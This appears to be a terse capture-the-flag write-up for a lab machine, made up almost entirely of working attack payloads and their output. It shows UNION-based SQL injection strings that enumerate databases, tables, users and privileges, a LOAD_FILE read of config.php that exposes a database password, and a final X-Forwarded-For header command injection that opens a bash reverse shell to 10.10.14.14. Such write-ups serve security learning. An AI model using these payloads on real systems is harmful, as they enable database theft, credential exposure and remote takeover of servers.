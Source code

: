 7' UNION SELECT @@version--+
that working payload

that command to find databases:
7' UNION  SELECT group_concat(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA--+
result:
we found databases:
mysql,information_schema,performance_schema,sys,november

that command to find tables in november db:
7' UNION  SELECT group_concat(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='november'--+
result:
flag,players

that command to find name of column in players table in november db:
7' UNION  SELECT group_concat(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS where table_name='players'--+
result:
player
that command to find players:
7' UNION  SELECT group_concat(player) FROM november.players--+
result:
ippsec,celesian,big0us,luska,tinyboy

we also found flag UHC{F1rst_5tep_2_Qualify}
and past this into challenge.php that give for us access into ssh

we are uhc
all users:
debian-sys-maint,mysql.infoschema,mysql.session,mysql.sys,root,uhc


we found that we have privilege
' UNION SELECT  super_priv FROM mysql.user WHERE user="uhc"-- -

and this give for us read local files
7' UNION  SELECT LOAD_FILE('/var/www/html/config.php')--+
result
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>

after access we found file firewall.php in web root dir
![[Pasted image 20250209162709.png]]
we can abuse command injection
X-FORWARDED-FOR: ;bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1';